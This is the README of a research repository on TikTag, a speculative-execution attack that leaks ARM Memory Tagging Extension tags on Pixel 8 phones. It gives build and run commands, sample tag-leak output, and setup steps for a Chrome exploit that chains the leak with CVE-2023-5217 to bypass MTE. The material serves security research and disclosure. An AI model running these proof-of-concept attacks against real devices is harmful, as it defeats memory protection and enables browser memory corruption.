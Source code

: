 # TikTag

## Introduction

ARM Memory Tagging Extension (MTE) is an ARMv8.5-A feature designed
to mitigate memory corruption attacks. TikTag gadget breaks MTE by
leaking MTE tags through speculative execution. When TikTag gadgets
are speculatively executed, cache state differs depending on
whether the gadgets trigger a tag check fault or not. Therefore, by
observing the cache states, it is possible to leak the tag check
results without raising any exceptions. The gadgets were effective on
both Pixel 8 and Pixel 8 pro, which are the first officially
MTE-enabled hardware. 


## Setup
Build environment: x86_64 GNU/Linux

Set `GCC_TOOLCHAIN` to the path of ARM GCC toolchin, e.g., `gcc-arm-10.3-2021.07-x86_64-aarch64-none-linux-gnu`.

Run `./build.sh` to build the gadgets and the fuzzer:
- `TIMER`=0: Virtual timer (default, no kernel modification required)
- `TIMER`=1: Cycle timer (requires kernel modification, e.g., `kenable-pmu.c`, to enable user-space access to cycle counter)


## Gadget
We referenced [Project Zero's MTE implementation test](https://github.com/googleprojectzero/p0tools/blob/master/MTETest/speculation_window.c) for the environment setup (e.g., code generation, time measurement, cache flush).

```sh
# On the host
$ ./build.sh

# On the Pixel device
$ cd /data/local/tmp
$ ./poc <test_cpu> <iterations> <MTE mode (0:sync, 1:async)> <gadget>
```
### Affected Cores/Gadgets
- `test_cpu`=8 (Cortex-X3)
    - Gadget 1 (`gadget`=1): Exploiting Speculation Shrinkage
    - Gadget 1 variant 1 (`gadget`=11)
    - Gadget 1 variant 2 (`gadget`=12)
- `test_cpu`=4-7 (Cortex-A715)
    - Gadget 2: Exploiting Store-To-Load Forwarding (`gadget`=2)

### Results
Assume the `poc` file is built with `TIMER`=0 (virtual timer). The
result shows for each guess of the tag value (Tag), the hit rate
(HIT) and access latency (LAT) of the affected cache line. The
tag value with the highest hit rate is the correct tag value. 
 

**Testing Gadget 1 on Pixel 8**:
```sh
$ ./poc 8 1000 0 1
Generate G1
Tag     HIT     LAT
0       0.81    1.48
1       0.84    1.33
2       0.84    1.34
3       0.85    1.33
4       0.85    1.35
5       0.85    1.32
6       0.85    1.33
7       0.85    1.34
8       0.99    0.82
9       0.84    1.36
10      0.84    1.37
11      0.83    1.38
12      0.84    1.35
13      0.84    1.35
14      0.83    1.37
15      0.84    1.36
Leaked  Tag: 8
Correct Tag: 8
...
```
**Testing Gadget 2 on Pixel 8**:
```sh
$ ./poc 4 1000 0 2
Generate G2
Tag     HIT     LAT
0       0.00    5.38
1       0.00    5.17
2       0.00    5.19
3       0.00    5.17
4       0.00    5.20
5       0.00    5.17
6       0.00    5.17
7       0.00    5.15
8       0.00    5.30
9       0.00    5.23
10      0.00    5.16
11      0.97    1.03
12      0.00    5.17
13      0.00    5.18
14      0.00    5.16
15      0.00    5.15
Leaked  Tag: 11
Correct Tag: 11
...
```

## Fuzzer

We referenced [Revizor](https://github.com/microsoft/sca-fuzzer) and [armshaker](https://github.com/frestr/armshaker) for the fuzzer implementation.
We leveraged `libopcodes` to mutate and verify the AArch64 assembly gadgets.

```sh
# On the host
$ ./build.sh

# On the Pixel device
$ cd /data/local/tmp/fuzzer
$ ./run-fuzzer.sh
```

## Real-World Exploits

### Chrome V8 JavaScript Engine

We crafted a TikTag-v2 gadget in JavaScript that can leak the tag of
the entire renderer process memory space. Utilizing the leaked tag,
this PoC exploits the recent heap overflow vulnerability
[CVE-2023-5217](https://github.com/UT-Security/cve-2023-5217-poc) in
the libvpx library to bypass the MTE protection and trigger the memory
corruption.

The exploit was effective on Chromium version 125.0.6422.231, with
several modifications to backport CVE-2023-5217 in libvpx and get
renderer object address by `browser-exploit/chromium.patch`. 

Set up the PoC:
```sh
$ pushd browser-exploit
$ npm install express serve-static yargs
$ node server.js
```

On the Pixel device: 
1. Enable MTE on the Chromium browser (see https://googleprojectzero.blogspot.com/2023/11/first-handset-with-mte-on-market.html).
2. Open the browser and visit `https://<host>:8000`.

On the host:
1. Check the debugging log with `./chrome_public_apk logcat -d <Device id>` and `chrome://inspect`.


## Reference
- [Speculative Oracles on Memory Tagging](https://developer.arm.com/documentation/109544/latest)
